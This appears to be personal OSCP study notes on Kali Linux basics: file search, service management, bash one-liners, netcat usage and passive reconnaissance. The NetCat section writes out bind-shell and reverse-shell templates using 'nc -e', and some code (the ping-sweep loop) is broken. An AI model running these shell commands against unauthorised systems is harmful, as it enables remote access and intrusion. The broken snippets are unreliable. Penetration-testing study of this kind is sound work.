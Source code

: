 <p align=”centre”>

  <b>OSCP 2020</b><br>

 <img src="oscp1.png">

</p>
<p><b> Getting Comfortable With Kali Linux</b><br></p>


# Find File:

**locate**
```
updatedb
```
to update the file index database

```
locate [filename]
```
**which**

find the file which has current execution environment

```
which [part of file name]
```

**find**

powerfull search tool with many arguments

```
find [search location]  -name [filename] -exec file "{}"\;
```

# Service managent:

```
service [service name] [option]

```
option could be : start, stop, or restart

alternatevly you can use:

```
/etc/init.d/[service name] [option]
```

or:

```
update-rc.d [service name] [options]

```

options here are: defaults, remove, start , or stop



**GUI service management:**

rcconf

![Alt text](rcconf.png)


sysv--rc-conf

![Alt text](sysv-rc-conf.png)


# Bash Shell

to automate actions you need to write some shell scripts for example filtring domain names from a html page:

``` 
wget cisco.com 
cat index.html | grep "a href=" | cut -d "/" -f3
```

if you get error *ERROR: The certificate of ‘www.cisco.com’ is not trusted.* just use *wget --no-check-certificate cisco.com*

other method:

``
cat index.html |grep 'http://[^"]*' | cut -d "/" -f 3 |sort -u
```

# direct error to null screen (do not show errors)

```
command 2>/dev/null

```
where:

stdin – 0 – Standard Input (usually keyboard or file)

stdout – 1 – Standard Output (usually screen)

stderr – 2 – Standard Error (usually screen)


# Reverse Hex Dump:

```
xxd -r file > output
```
# login with ssh-private key

```
ssh -i [key file path] user@host

```

# ping sweeper:

```
#! /bin/bash
```
for ip in $(1 255) do
ping 192.168.1.$ip | grep "bytes from" | cut -d " " -f4 | cut -d ":" -f1 &
```

the & is to send each command to background and run the next on in the loop

# Rdisktop

```
rdisktop -u *username* -p *password* *hostname/ip*
```

# NetCat

on server side:

```
nc -nlp *port*
```
n stands for numerical host ( no DNS)
l stands for listen
p stands for port

on clinet side:

```
nc -n *netcat Server machine IP address* *port*
```

the port is the server spacified port number 


NetCat file transfare:

```
server side:
nc -npl *port* > *name for the recived file*

client side:
nc -n *serverIP* *serverport* < *path of the file to be send*
```
NetCat Remote Execution:

```
**forword command execution(Bind Shell)**
server side:
nc -lp *port* -e *full path of command to be executed*
clinet side:
nc -n *serverIP* *serverport*
**revirce shell**
server side:
nc -lp *port*
clinet side:
nc -n *serverIP* *serverPort* -e *full path of command to be executed*
```
# Reconnaissance:

Pasive:

```
theHarvester -d *domainname* -b google

```
you can use any other search engen to search in

```
whois *domainname* OR *IP*
```


DNS Enumeration:

``` 
host *internet hostname*
```

that would resolve the hostname to an IP address

```
host -t *DNS recired type* *domain*

recored type such as: ns, mx, a, and aaaa
```

Note -A insted of -t gets all the recoreds ns, mx, a, and aaaa recoreds